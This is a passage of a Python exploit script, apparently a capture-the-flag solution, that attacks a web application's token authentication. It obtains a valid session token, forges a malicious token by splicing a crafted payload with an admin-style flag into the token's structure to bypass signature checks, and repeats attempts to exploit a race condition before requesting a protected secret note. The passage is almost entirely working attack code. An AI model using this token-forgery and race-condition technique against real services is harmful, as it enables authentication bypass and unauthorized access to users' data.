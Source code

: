 ```python
    
    if login_response.status == 200:
        token = login_response.cookies.get("token").value
        print('token:', token)
        return token
    else:
        print(f"Login failed: {await login_response.text()}")
        return None

def create_malicious_token(valid_token):
    # Split the valid token
    parts = valid_token.split(".")
    
    # Create malicious payload
    malicious_payload = {
        "id": "any_id",  # This doesn't matter as we're bypassing verification
        "username": "any_username",
        "is_d4rk_pr1nc3ss": True
    }
    
    # Encode malicious payload
    malicious_payload_b64 = base64.b64encode(
        json.dumps(malicious_payload).encode()
    ).decode()
    
    # Create malicious token
    # Format: header.malicious_payload.original_payload.signature
    malicious_token = f"{parts[0]}.{malicious_payload_b64}.{parts[1]}.{parts[2]}"
    
    return malicious_token

async def get_secret_note(session, token):
    response = await session.get(
        f"{BASE_URL}/api/secret-note",
        cookies={"token": token},
        auth=AUTH
    )
    
    if response.status == 200:
        return await response.text()
    else:
        print(f"Failed to get secret note: {await response.text()}")
        return None

async def main():
    async with aiohttp.ClientSession(trust_env=True) as session:
        # Try multiple times to catch the race condition
        for _ in range(10):
            print("Attempting to register and login...")
            
            # Try to register and login simultaneously
            token = await register_and_login(session)
            if not token:
                continue
            
            print("Got valid token! Creating malicious token...")
            
            # Create malicious token
            malicious_token = create_malicious_token(token)
            
            # Try to get secret note
            secret = await get_secret_note(session, malicious_token)
            if secret:
```